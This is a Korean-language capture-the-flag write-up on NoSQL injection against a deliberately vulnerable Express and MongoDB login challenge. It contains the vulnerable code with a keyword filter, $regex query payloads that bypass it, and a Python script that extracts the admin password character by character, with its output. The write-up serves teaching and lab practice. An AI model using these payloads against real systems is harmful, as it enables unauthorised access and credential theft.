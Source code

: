 # NoSQL-Injection
SQL Injection과 매우 유사한 방식이고, 두 공격 모두 이용자의 입력값이 쿼리에 포함되면서 발생하는 문제점이다. MongoDB의 NoSQL Injection 취약점은 주로 이용자의 입력값에 대한 타입 검증이 불충분할 때 발생한다

# Mango(Exercies)
admin의 계정 비밀번호가 flag 값이다. 아래는 express 프레임워크로 실행 중인 문제 코드이다.

```javascript
const express = require('express');
const app = express();

const mongoose = require('mongoose');
mongoose.connect('mongodb://localhost/main', { useNewUrlParser: true, useUnifiedTopology: true });
const db = mongoose.connection;

// filter 함수 ==============================
// flag is in db, {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}
const BAN = ['admin', 'dh', 'admi'];

filter = function(data){
    const dump = JSON.stringify(data).toLowerCase();
    var flag = false;
    BAN.forEach(function(word){
        if(dump.indexOf(word)!=-1) flag = true;
    });
    return flag;
}
// ================================================

app.get('/login', function(req, res) {
    if(filter(req.query)){  // filter  함수가 실행된다
        res.send('filter');
        return;
    }
    const {uid, upw} = req.query;

    db.collection('user').findOne({ // db에서 uid, upw 검색
        'uid': uid,
        'upw': upw,
    }, function(err, result){
        if (err){
            res.send('err');
        }else if(result){
            res.send(result['uid']);
        }else{
            res.send('undefined');
        }
    })
});

app.get('/', function(req, res) {
    res.send('/login?uid=guest&upw=guest');
});

app.listen(8000, '0.0.0.0');

```
1. `/login` 페이지 요청시에서는 이용자가 쿼리로 전달한 uid, upw로 데이터에비스를 검색하고 찾아낸 이용자의 정보를 반환한다
2.  filter 함수는 일부 문자열을 필터링하는 함수이다. 필터링 함수는 admin, dh, admi 라는 문자열이 있을 때 true를 반환한다
3. 코드에서 db에서 uid,upw 검색하는 부분을 보면 쿼리 변수의 타입을 검사하지 않는다. 이로 인해서 타입이 string 뿐만아니라 object 타입도 쿼리가 가능하기 때문에 NoSQL Injection 공격이 가능해진다.

# 익스플로잇
`/login?uid=guest&upw=guest`을 입력하면 이용자의 uid만 출력된다. flag 를 얻기 위해선 upw를 획득해야하기 때문에 다음과 같은 방법으로 익스플로잇한다
1. Blind NoSQL Injection Payload 생성 `$regex` 연산을 사용하여 정규표현식을 이용해 데이터를 검색한다.

```
/login?uid=guest&upw[$regex]=.*

guest
```

만약 upw가 일치하는 경우 uid를, 아닌경우 undefined 문자열이 출력되는 것을 통해 참과 거짓을 확인 할 수 있다

2. filter 우회
filter 함수는 admin, dh, admi 문자열을 필터링하지만 정규표현식에서 임의 문자를 표현하는 `.`을 이용하여 쉽게 우회한다

```bash
/login?uid[$regex]=ad.in&upw[$regex]=D.{*

admin
```

3. Exploit Code 작성
이제는 한글자씩 알아내야하므로, 여러번 쿼리를 전달해야하는데 이를 자동화하는 스크립트 코드를 작성하여 실행한다.

```
import requests, string

HOST = 'http://localhost'
ALPHANUMERIC = string.digits + string.ascii_letters
SUCCESS = 'admin'

flag = ''

for i in range(32):
    for ch in ALPHANUMERIC:
        response = requests.get(f'{HOST}/login?uid[$regex]=ad.in&upw[$regex]=D.{{{flag}{ch}')
        if response.text == SUCCESS:
            flag += ch
            break
    
    print(f'FLAG: DH{{{flag}}}')
```

# kali linux 에서 코드 작성 후 실행

```
└─$ python3 nosql.py 
FLAG: DH{8}
FLAG: DH{89}
FLAG: DH{89e}
FLAG: DH{89e5}
FLAG: DH{89e50}
FLAG: DH{89e50f}
FLAG: DH{89e50fa}
FLAG: DH{89e50fa6}
FLAG: DH{89e50fa6f}
FLAG: DH{89e50fa6fa}
FLAG: DH{89e50fa6faf}
FLAG: DH{89e50fa6fafe}
FLAG: DH{89e50fa6fafe2}
FLAG: DH{89e50fa6fafe26}
FLAG: DH{89e50fa6fafe260}
FLAG: DH{89e50fa6fafe2604}
FLAG: DH{89e50fa6fafe2604e}
FLAG: DH{89e50fa6fafe2604e3}
FLAG: DH{89e50fa6fafe2604e33}
FLAG: DH{89e50fa6fafe2604e33c}
FLAG: DH{89e50fa6fafe2604e33c0}
FLAG: DH{89e50fa6fafe2604e33c0b}
FLAG: DH{89e50fa6fafe2604e33c0ba}
FLAG: DH{89e50fa6fafe2604e33c0ba0}
FLAG: DH{89e50fa6fafe2604e33c0ba05}
FLAG: DH{89e50fa6fafe2604e33c0ba058}
FLAG: DH{89e50fa6fafe2604e33c0ba0584}
FLAG: DH{89e50fa6fafe2604e33c0ba05843}
FLAG: DH{flag                         }
FLAG: DH{flag                          }
FLAG: DH{flag                           }
FLAG: DH{flag 가리기~~~!!!!!!!!!!!!!!!!!!}
```

위와 같이 코드를 작성하여 실행 시키면 flag 값을 획득 할 수 있다.


